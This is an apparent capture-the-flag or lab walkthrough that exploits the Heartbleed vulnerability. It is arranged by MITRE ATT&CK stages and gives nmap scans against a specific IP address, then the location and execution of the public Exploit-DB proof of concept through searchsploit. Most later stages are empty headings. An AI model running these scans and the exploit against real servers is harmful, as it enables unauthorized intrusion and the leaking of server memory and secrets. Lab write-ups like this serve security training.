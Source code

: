 # HEARTBLEED

## Reconnaissance  

 gather information and plan future operations

### NMAP  

 `:> nmap 44.192.84.180`  

 ![namp 1](assets/heartbleed-01.png)  

 There are a number of potential attack points. Refine the recon by discovering services

 `:> nmap 44.192.84.180 -sV`
 
 ![Service Discovery](assets/heartbleed-02.png)  

 Scan the ports for identifiable vulnerabilities.  

  `:> nmap 44.192.84.180 -p 443 --script vuln`

  Scanning port 443 reveals the heartbleed vulnerability  

 ![Vulnerability Discovery](assets/heartbleed-03.png)  
 
## Resource Development  

  creating, purchasing, or compromising/stealing resources that can be used to support targeting



### EXPLOIT-DB  

 The go-to resource for proofs of concepts.  
 [Reviewing and choosing the PoC written by Jared Stafford](https://www.exploit-db.com/exploits/32745)

 ![Exploit-DB Vulnerability Banner](assets/heartbleed-04.png)  

 Alternatively, identify the exploit within kali linux

 `:> searchsploit heartbleed`  

  ![Searchsploit](assets/heartbleed-06.png)  



### Establish the heartbeat

 Open a web browser and establish the TLS connection

 ![Static Web Page](assets/heartbleed-05.png)  

## Initial Access  

 use of various entry vectors to gain initial foothold within a network

 Use one of the options identified by the searchsploit command to initiate the attack

 Copy the exploit from its home location to a working directory. I prefer to never work with an original.  

 `:> cp /usr/share/exploitdb/exploits/multiple/remote/32745.py ~/Documents`

 Execute the exploit, observe the feedback and see the site is vulnerable.

 `:> python2 32745.py`
 
  ![top results](assets/heartbleed-07.png)  
  ![bottom results](assets/heartbleed-08.png)  

 Finding the flag can be slightly easier by outputting the results to a text file.  
  `:> python2 32745.py > output.txt`

## Execution  

 techniques that result in adversary-controlled code running on a local or remote system

## Persistenace  

 techniques adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access

## Privilege Escalation  

 techniques used to gain higher-level permissions on a system or network

## Defense Evasion  

 techniques used to avoid detection throughout their compromise.

## Credential Access  

 techniques for stealing credentials like account names and passwords

## Discovery  

 techniques used to gain knowledge about the system and internal network

## Lateral Movement  

 techniques used to enter and control remote systems on a network

## Collection  

 techniques used to gather information and the sources information is collected from that are relevant to following through on the adversary's objectives

## Command and Control  

 techniques used to communicate with systems under adversary control within a victim network

## Exfiltration  

 techniques used to steal data from your network

## Impact  

 techniques used to disrupt availability or compromise integrity by manipulating business and operational processes  